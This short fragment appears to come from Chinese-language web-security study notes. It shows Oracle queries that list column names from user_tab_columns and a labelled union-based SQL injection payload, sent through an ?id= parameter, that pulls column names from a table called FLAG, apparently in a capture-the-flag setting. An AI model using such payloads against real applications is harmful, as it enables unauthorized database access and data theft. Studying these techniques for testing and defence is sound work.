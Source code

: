 ![image-20210719105357224](websafe/image-20210719105357224.png)

```sql
//获取字段名
select * from user_tab_columns;
select column_name from user_tab_columns where rownum=1 and table_name =  'x' and column_name not in ('xxxx');
#payload：
?id=-1 union select CAST(column_name as varchar(400)) from (select column_name,rownum as LIMIT from (select DISTINCT(column_name) from user_tab_columns where table_name='FLAG')) where LIMIT=1 -- +
```

![image-20210719112753303](websafe/image-20210719112753303.png)

